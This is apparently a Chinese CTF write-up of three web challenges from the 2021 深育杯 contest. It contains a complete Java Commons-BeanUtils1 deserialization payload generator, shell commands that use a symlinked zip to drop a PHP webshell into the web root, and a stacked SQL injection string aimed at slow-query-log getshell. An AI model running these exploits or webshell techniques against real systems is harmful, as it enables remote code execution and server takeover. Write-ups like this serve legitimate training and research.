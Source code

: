# WebLog

访问发现是个文件下载，下载的是日志文件，目录穿越不太好传，尝试拿bp爆破一下日期来下载Log，发现了一个jar：

![image-20211113162959511](2021年深育杯Web.assets/image-20211113162959511.png)

访问`?logname=cb-0.0.1-SNAPSHOT.jar`把jar包下载下来，发现存在一个反序列化的后门：

```java
    @ResponseBody
    @RequestMapping({"/bZdWASYu4nN3obRiLpqKCeS8erTZrdxx/parseUser"})
    public String getUser(String user) throws Exception {
        byte[] userBytes = Base64.getDecoder().decode(user.getBytes());
        ObjectInputStream in = new ObjectInputStream(new ByteArrayInputStream(userBytes));
        User userObj = (User)in.readObject();
        return userObj.getUserNicename();
    }
```

看一下pom.xml，有个cb：

```xml
        <dependency>
            <groupId>commons-beanutils</groupId>
            <artifactId>commons-beanutils</artifactId>
            <version>1.8.2</version>
        </dependency>
```

直接反序列化打就行了，直接拿前几天 陇原战疫比赛的那个EasyJaba那题的POC，把链子的构造那部分改成cb的，然后直接打过去：

```java
package com.summer.cb1;

import com.summer.util.SerializeUtil;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.beanutils.BeanComparator;

import java.util.Base64;
import java.util.Collections;
import java.util.PriorityQueue;

public class CommonsBeanUtils1 {
    public static void main(String[] args) throws Exception{
        new CommonsBeanUtils1().getShiroPayload();
    }
    public static void cb1() throws Exception{
        byte[] evilCode = SerializeUtil.getEvilCode();
        TemplatesImpl templates = new TemplatesImpl();
        SerializeUtil.setFieldValue(templates,"_bytecodes",new byte[][]{evilCode});
        SerializeUtil.setFieldValue(templates,"_name","feng");
        SerializeUtil.setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());

        BeanComparator beanComparator = new BeanComparator("outputProperties");

        PriorityQueue priorityQueue = new PriorityQueue(2, beanComparator);


        SerializeUtil.setFieldValue(priorityQueue,"queue",new Object[]{templates,templates});
        SerializeUtil.setFieldValue(priorityQueue,"size",2);
        byte[] bytes = SerializeUtil.serialize(priorityQueue);
        System.out.println(new String(Base64.getEncoder().encode(bytes)));
    }
    public byte[] getShiroPayload() throws Exception{
        byte[] evilCode = SerializeUtil.getEvilCode();
        TemplatesImpl templates = new TemplatesImpl();
        SerializeUtil.setFieldValue(templates,"_bytecodes",new byte[][]{evilCode});
        SerializeUtil.setFieldValue(templates,"_name","feng");
        SerializeUtil.setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());

        BeanComparator beanComparator = new BeanComparator("outputProperties",String.CASE_INSENSITIVE_ORDER);
        //BeanComparator beanComparator = new BeanComparator("outputProperties", Collections.reverseOrder());

        PriorityQueue priorityQueue = new PriorityQueue(2, beanComparator);


        SerializeUtil.setFieldValue(priorityQueue,"queue",new Object[]{templates,templates});
        SerializeUtil.setFieldValue(priorityQueue,"size",2);
        byte[] bytes = SerializeUtil.serialize(priorityQueue);

        System.out.println(new String(Base64.getEncoder().encode(bytes)));
        //SerializeUtil.unserialize(bytes);
        return bytes;
    }

}

```



![image-20211113163226532](2021年深育杯Web.assets/image-20211113163226532.png)



# zipzip

上传压缩包回显被传到了`/tmp/uploads`目录下面，尝试拿010工具构造在解压缩的时候可以目录穿越的压缩文件，但是没有成功。查了一下才想到可以利用软连接，但是要想办法的是rce，也就是其实还是得解压缩之后把马解压到web目录下面，这时候想到了软连接目录。

先创建一个指向`/var/www/html`的软链接：

```shell
root@VM-0-6-ubuntu:~# ln -s /var/www/html feng
```

然后再把它压缩，使用`-y`，这样在压缩的时候可以保存软链接：

```shell
root@VM-0-6-ubuntu:~# zip -y feng1.zip feng
```

在feng目录下面写个马，然后再把这个feng目录不带`-y`的压缩：

```shell
root@VM-0-6-ubuntu:~# ls -al feng
lrwxrwxrwx 1 root root 13 Nov 13 18:33 feng -> /var/www/html
root@VM-0-6-ubuntu:~# zip -r feng2.zip feng
  adding: feng/ (stored 0%)
  adding: feng/.feng.php (stored 0%)
```

这时候的feng2.zip是这样，feng是个正常的目录，目录下面有个马：

![image-20211113185354971](2021年深育杯Web.assets/image-20211113185354971.png)

然后先上传feng1.zip，再上传feng2.zip，这时候首先应该那边有了`/tmp/uploads/feng`，这是个指向`/var/www/html`的软连接。然后再上传feng2.zip进行解压的时候，实际上应该是把.feng.php解压到`/tmp/uploads/feng`这个目录下，但这已经是一个软链接了，因此实际上应该这个马被移动到了web目录了。

然后rce拿flag即可：

![image-20211113185613785](2021年深育杯Web.assets/image-20211113185613785.png)

# ezSQL

不记得是不是叫这个名字了，首先就是得能堆叠：

```
1);select 1,2,3,4;
```

主要的问题就是，主办方给了hint但是应该基本没人知道：

![image-20211113225229853](2021年深育杯Web.assets/image-20211113225229853.png)

查一下就知道是慢查询getshell了，参考文章：

https://www.geek-share.com/detail/2796651553.html

照着打就行了，写到`helpyou2findflag.php`里面就行了。赛后把VPN关了然后密码不知道连不上去所以打不了了，让Jiang师傅按这个思路试了试确实打通了，所以这比赛放hint能不能群里通知一下啊呜呜呜。